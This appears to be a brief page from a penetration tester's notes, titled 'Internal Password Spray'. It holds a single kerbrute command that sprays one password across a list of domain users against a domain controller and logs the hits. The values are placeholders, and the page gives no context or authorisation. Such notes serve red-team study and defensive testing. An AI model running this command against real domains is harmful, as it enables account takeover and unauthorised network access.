 ```yaml
---
title: "Internal Password Spray"
date: 2020-07-17T20:59:33+02:00
draft: false
---
```


#### Password spray with kerbrute

```$ .\kerbrute.exe passwordspray --dc V-DC2 -d DOMAIN.LOCAL -o spray.txt users.txt 'PASSWORD'```


